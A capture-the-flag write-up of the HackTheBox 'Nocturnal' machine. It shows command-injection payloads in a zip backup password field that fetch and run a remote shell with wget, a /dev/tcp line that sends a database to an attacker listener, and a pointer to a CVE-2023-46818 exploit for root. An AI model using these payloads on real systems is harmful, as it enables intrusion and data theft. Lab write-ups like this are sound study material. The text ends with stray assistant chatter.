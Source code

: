 # Nocturnal

```
Difficulty: Easy
Operating System: Linux
Hints: True
```

## ✅ Summary

| Step | User / Access   | Technique Used                          | Result                                                                                  |
| :--- | :------------- | :-------------------------------------- | :-------------------------------------------------------------------------------------- |
| 1    | `N/A`          | Port Scanning                           | Found HTTP (nginx 1.18) and SSH (OpenSSH 8.2) services.                                 |
| 2    | `N/A`          | Username Enumeration                     | Enumerated users (`admin`, `amanda`, `tobias`) via URL parameter with ffuf.            |
| 3    | `amanda`       | File Analysis / Backup                   | Downloaded `privacy.odt` and extracted Amanda’s password.                               |
| 4    | `tobias`       | Database Access / Password Cracking      | Logged in to backend, created backup, retrieved and cracked Tobias's password.          |
| 5    | `www-data`     | Command Injection in Backup Function    | Exploited zip backup password injection to execute shell commands and retrieve DB file. |
| 6    | `N/A`          | SSH Local Port Forwarding                | Forwarded intranet port 8080 to local machine to access ISPConfig service.              |
| 7    | `root`         | ISPConfig CVE-2023-46818 Exploit        | Used code injection exploit to gain root privileges on the system.                     |



## Nmap Enumeration

```bash
[root@kali] /home/kali/Nocturnal  
❯ nmap Nocturnal.htb -sV -A
````

**Nmap Results:**

| Port   | State | Service | Version                          |
| ------ | ----- | ------- | -------------------------------- |
| 22/tcp | open  | ssh     | OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 |
| 80/tcp | open  | http    | nginx 1.18.0 (Ubuntu)            |

* HTTP title: `Welcome to Nocturnal`
* Cookie `PHPSESSID` is **not httponly**.

---

## User Enumeration

1. Register a user and log in.
2. Upload any file to check download links:

```
http://nocturnal.htb/view.php?username=<USERNAME>&file=2023.xlsx
```

3. Enumerate usernames using **ffuf**:

```bash
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=2023.xlsx' \
-w ../Desktop/fuzzDicts/userNameDict/user.txt \
-H 'Cookie: PHPSESSID=k381a2of6lftuk6gnab5f5sapa' \
-fs 2985
```

**Discovered Users:**

* `admin`
* `amanda`
* `tobias`

4. Check files for **amanda**, find `privacy.odt`:

```bash
file privacy.odt
# Output: Zip archive, with extra data prepended
```

* Decompress and extract **password** from this file.

---

## User Password Extraction

1. Log in to the admin interface using amanda’s credentials.
2. Create a backup from the admin panel (set a password).
3. Download and decompress the backup file to retrieve database files.
4. Use amanda's password to obtain password hashes.
5. Crack **tobias’s password** successfully.

---

## Code Analysis (Post-Update)

* Database backup functionality in `admin.php`:

```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) return false;
    }
    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}

$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

* **Vulnerability:** Password field is directly spliced into the `zip` command; partial blacklist is insufficient.
* **Exploit:** Use URL encoding to inject commands:

```text
password=%0Abash%09-c%09"id"%0A&backup=
password=%0Abash%09-c%09"wget%0910.xx.xx.xx/shell"%0A&backup=
password=%0Abash%09-c%09"bash%09shell"%0A&backup=
```

* Transfer the database file to your machine:

```bash
www-data@nocturnal:~/nocturnal_database$ cat nocturnal_database.db > /dev/tcp/10.xx.xx.xx/8888
```

```bash
[root@kali] /home/kali/Nocturnal  
❯ nc -lvnp 8888 > nocturnal_database.db
```

---

## Root Access

1. Found intranet service on port `8080`.
2. SSH tunneling to local machine:

```bash
ssh tobias@nocturnal.htb -L 9090:127.0.0.1:8080
```

3. Identified **ISPConfig** service (possibly version 3.2).
4. Exploit **CVE-2023-46818** for code injection:

* Search: `bipbopbup/CVE-2023-46818-python-exploit`

* Use to gain root access.

* **Tip:** Check for password reuse between users and services.

---



**Takeaways:**

* Always sanitize user input properly for command execution.
* Backup files and database exports can leak credentials if not protected.
* Internal services can provide privilege escalation paths when exposed internally.

```

This Markdown keeps the **attack flow structured**, includes **commands, outputs, and vulnerabilities**, and separates **user** and **root** stages.  

If you want, I can also **add a small attack-chain table at the top** for quick reference like your other HTB writeups. It would make it even cleaner. Do you want me to do that?
```
